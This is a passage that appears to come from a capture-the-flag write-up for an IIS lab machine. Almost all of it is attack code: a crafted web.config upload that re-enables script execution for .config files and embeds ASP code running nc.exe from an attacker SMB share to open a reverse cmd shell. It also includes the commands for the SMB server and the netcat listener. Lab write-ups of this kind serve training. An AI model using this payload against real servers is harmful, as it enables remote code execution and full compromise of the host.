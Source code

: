 > **Attacker Machine**:

```bash
nvim web.config
tcpdump -i tun0 icmp -n
# http://10.10.10.93/transfer.aspx
# http://10.10.10.93/UploadedFiles/web.config

nvim web.config
cat !$
```

> **web.config**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<%
Set wShell1 = CreateObject("WScript.Shell")
 Set cmd1 = wShell1.Exec("cmd /c \\10.10.14.14\smbFolder\nc.exe -e cmd 10.10.14.14 443")
output1 = cmd1.StdOut.Readall()
Response.write(output1)
%>
-–>
```

```bash
locate nc.exe | grep -v al3j0
cp /usr/share/windows-resources/binaries/nc.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443
# http://10.10.10.93/transfer.aspx
# http://10.10.10.93/UploadedFiles/web.config
```
